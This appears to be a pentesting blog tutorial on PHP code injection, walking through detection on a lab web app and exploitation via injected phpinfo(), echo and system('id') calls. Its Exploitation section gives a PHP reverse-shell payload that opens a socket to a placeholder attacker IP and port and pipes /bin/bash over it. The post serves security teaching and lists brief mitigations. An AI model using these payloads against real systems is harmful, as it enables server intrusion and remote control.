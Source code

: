 ```yaml
---
title: Code Injection
date: 2022-01-01 05:49:33 +0800
categories: [WebApp And Api Pentesting, Code Injection]
tags: []  
---
```


# Code Injection

Code Injection is the general term for attack types which consist of injecting code that is then interpreted/executed by the application. Code Injection differs from Command Injection in that an attacker is only limited by the functionality of the injected language itself. If an attacker is able to inject PHP code into an application and have it executed, they are only limited by what PHP is capable of. Command injection consists of leveraging existing code to execute commands, usually within the context of a shell.

# Detection

![codei](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/codei2.png)

The webapp seems to take in user supplied input and reflect it on the page. if we replace test with any text we want, we will have our text displayed on the page. Let's replace it with `exploit`.

![codei](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/codei3.png)

We got `exploit` displayed on the page.

Let's conduct a fuzzing on the parameter to see if we can break something and get an error, or if we can determine some anomality from the response. There are lot of characters that can be used such as `; , || ' @ / > < $...`. We will start with `;`.

We are going to supply `exploit;` and see if we can get something interesting

![codei](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/codei4.png)

Well, it reflected the text without `;`, it supposed to display `exploit;` not `exploit` on the page, so there must be something behind.

Let's change the input to be like this `;exploit` and see again 

![codei](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/codei5.png)

As you can see nothing was displayed, which was supposed to display `;exploit` on the page. This means our input broke something in the backend, this webapp might be vulnerable to either `code injection` or `command injection` because `;` character is mostly used in shell or in code that is needed to evaluate string as a code. 

Let's test for code injection. Since this is php, we will make use of `phpinfo()` function to test for code injection, which if successfull will display plenty information about php and the server itself. We will supply `exploit;phpinfo();`

![codei](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/codei6.png)

We got it. This means the webapp is vulnerable to code injection.

# Exploitation

## Echo'ying text

Let's see if we can execute php code by supplying this `exploit;echo 'yes';`

![codei](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/codei7.png)

It's been executed, you can see `yes` has been displayed on the page.

## System Command

php has `system` function that will allow us to execute shell command in the backend. Let's supply `exploit;system('id');` 

![codei](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/codei8.png)

Well, `id` was executed.

## Reverse Shell

To get a reverse shell, we will intercept the request in burp suite, setup our listerner, supply our payload and then forward it to the server.

our payload here

``` bash
$sock=fsockopen("[ip]",[port]);$proc=proc_open("/bin/bash", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);

```

![codei](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/codei9.png)


![codei](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/codei10.png)

We got reverse shell.

# Mitigations

- Avoid using unsafe functions in source code.
- Utilize Whitelisting for input validation.
- Escaping All User Supplied Input.

# References

-  [https://owasp.org/www-community/attacks/Code_Injection](https://owasp.org/www-community/attacks/Code_Injection)
